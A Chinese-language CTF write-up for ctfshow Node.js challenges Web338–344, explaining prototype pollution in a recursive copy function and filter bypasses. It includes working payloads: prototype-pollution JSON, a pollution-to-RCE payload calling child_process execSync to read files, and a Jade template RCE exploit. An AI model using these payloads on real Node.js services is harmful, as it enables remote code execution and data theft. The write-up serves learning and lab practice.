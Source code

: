 # 写在前面

图片如果不是科学上网，可能由于网速原因看不见，如果需要看图可以点击图片链接

# Web338

首先从入口文件看起，`app.js`，发现两个关键路径

```javascript
app.use('/', indexRouter);
app.use('/login', loginRouter);
```

当然主页就不用看了，直接看关键部分，login，从当中我们不难得出需要让`secert.ctfshow==='36dboy'`即可获取flag，这里很简单，原型链污染嘛

```javascript
/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow==='36dboy'){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  } 
});
```

其中涉及到这一部分的利用函数就是`copy`，这是一个递归调用函数，for循环遍历object2当中的key(键)，如果这个键在object1与object2当中都存在，则调用`copy(object1[key], object2[key])`,否则让`object1[key] = object2[key]`

```javascript
function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
  }
```

那如果我们让`object2`为`{"__proto__":{"ctfshow":"36dboy"}}`会发生什么（注意本题当中object1为secret变量）

由于`object1和object2`的对象都具有属性`__proto__`,进入if语句为true，执行

`copy(object1[__proto__], object2[__proto__])`

此时`let key in object2`的`key`为`ctfshow`很明显object1当中没有，所以进入else部分

`object1[ctfshow] = object2[ctfshow]`，成功赋值为`36dboy`

Burpsuite发送请求包即可获取flag

```
POST /login HTTP/1.1
Host: 4ffe41ca-e762-4c9a-b7e1-56edabb0ab85.chall.ctf.show
Content-Length: 34
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Content-Type: application/json
Origin: http://4ffe41ca-e762-4c9a-b7e1-56edabb0ab85.chall.ctf.show
Referer: http://4ffe41ca-e762-4c9a-b7e1-56edabb0ab85.chall.ctf.show/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=176b20985423e8-07d414625df175-3323765-144000-176b209854358f
Connection: close

{"__proto__":{"ctfshow":"36dboy"}}
```



# Web339

这道题开始麻烦起来了，先来分析思路，首先列出本题利用所需要的关键代码

首先是login.js

```
/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow===flag){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
});
```

之后是api.js

```
var express = require('express');
var router = express.Router();
var utils = require('../utils/common');


// var query = "return global.process.mainModule.constructor._load('child_process').execSync('whoami');";
/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  res.render('api', { query: Function(query)(query)});
   
});
module.exports = router;
```

我们发现在api.js当中`Function里的query变量没有被引用`，如果我们能够通过原型污染攻击给它赋任意我们想要的值会怎样？？岂不是可以随意执行代码进行RCE了

首先给出我的payload吧，当然嫌麻烦的话里面可以搞成反弹shell的，看自己

```
{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').execSync('cat routes/login.js');"}}
```

通过调试我发现污染到了this,在nodejs当中其指向module.exports，最外层调用的时候会指向global，具体原因还不知道，未来希望能够破解，暂时水平受限，反正看到query到了全局变量里面

![CTFSHOW-WEB339](./pic/CTFSHOW-WEB339.png)

之后我们前往`url/api`界面发起post包即可获得flag

# Web342-343

这是我的exp，过程不讲自己研究

```php

{"__proto__":{"__proto__": {"type":"Code","compileDebug":1,"self":1,"line":"0, \"\" ));return global.process.mainModule.constructor._load('child_process').execSync('whoami', function(){} );jade_debug.unshift(new jade.DebugItem(0"}}}
```



# Web344

代码审计，需要query当中的name，password与isVIP符合条件，本来传入`query={"name":"admin","password":"ctfshow","isVIP":true}`即可但是这道题过滤了2c也就过滤了`%2c(逗号)`(req.url获取的值是url编码后的所以逗号会变成%2c)

```
router.get('/', function(req, res, next) {
  res.type('html');
  var flag = 'flag_here';
  if(req.url.match(/8c|2c|\,/ig)){
  	res.end('where is flag :)');
  }
  var query = JSON.parse(req.query.query);
  if(query.name==='admin'&&query.password==='ctfshow'&&query.isVIP===true){
  	res.end(flag);
  }else{
  	res.end('where is flag. :)');
  }
});
```

Nodejs的一个小特性吧，这样他会把三个部分拼接在一起，这样也就满足了题目的条件也得到了flag

```
由于"的url编码为%22与c又合成了2c所以c需要编码
query={"name":"admin"&query="password":"%63tfshow"&query="isVIP":true}
```

